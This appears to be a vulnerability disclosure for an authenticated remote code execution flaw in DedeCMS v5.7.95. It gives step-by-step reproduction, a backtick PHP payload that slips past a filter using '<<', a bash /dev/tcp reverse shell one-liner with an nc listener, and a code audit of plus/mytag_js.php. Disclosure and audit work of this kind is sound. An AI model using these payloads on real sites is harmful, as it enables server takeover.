 [toc]

# DedeCMS v5.7.95 RCE

Dedecms official website：https://www.dedecms.com/download。

## Vulnerability description

There is an arbitrary command execution vulnerability in the background of dedecms v5.7.95, which can write malicious code and cause rce vulnerability.



## Vulnerability impact

DedeCMS v5.7.95



## Recurrence process

First visit /dede to log in to the background.

Visit `dede/mytag_ main.php`, inserts a tag.

![image-20220621000017225](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220621000017225.png)

The main contents are as follows:

```php
<<?=`ls`;?>
```

The backquote(\`) is actually the alias of the shell_exec function:

![image-20220620235742551](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220620235742551.png)

Click "OK" to get the corresponding number, which is marked as 3 this time. Visit /plus/mytag_js.php?arcID=3&nocache=1, where `arcID=3` is the tag number. After that, the file a will be generated and directly included.

![image-20220621001339740](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220621001339740.png)

Further use to reverse shell:

```php
<<?=`bash -i &>/dev/tcp/127.0.0.1/2333 <&1`;?>
```

![image-20220621001414973](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220621001414973.png)

use ncat:

```bash
nc -lvvp 2333
```

Visit /plus/mytag_js.php?arcID=3&nocache=1 to reverse the shell successfully:

![image-20220621001633221](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220621001633221.png)



## Code audit

Vulnerability location is in `plus/mytag_js.php`, you can see that the file contains directly after the file is written. In this case, we don't have to care about the file name. Here, the file name has a fixed htm suffix. We need to care about what the myvalues content is when the file is written.

![image-20220621001801902](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220621001801902.png)

The value of myvalues is found through query. The query statements are:

```sql
SELECT * FROM `#@__mytag` WHERE aid='$aid' 
```

![image-20220621001953888](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220621001953888.png)

You can search globally to get the information in mytag_add.php or mytag_edit.php. These two files involve the insertion or update of tables.

![image-20220621002146874](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220621002146874.png)

So visit mytag_main.php, here are add and edit operations

![image-20220621002256500](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220621002256500.png)

a lot of malicious functions are filtered in plus/mytag_js.php, but the backquotes(\`) are not filtered, and they cannot match `[^<]+<\?(php|=)`：

```php
// will be matched
abcde<?php `ls`;?>
<?=`ls`;?>

// will not be matched
<<?=`ls`?>
```

Use  `<<`  to bypass `[^<]+<\?(php|=)`, thus rce succeeds.

![image-20220621002749384](https://raw.githubusercontent.com/Airrudder/picbed/master/image-20220621002749384.png)

See the "Recurrence process" above for specific operation and utilization.
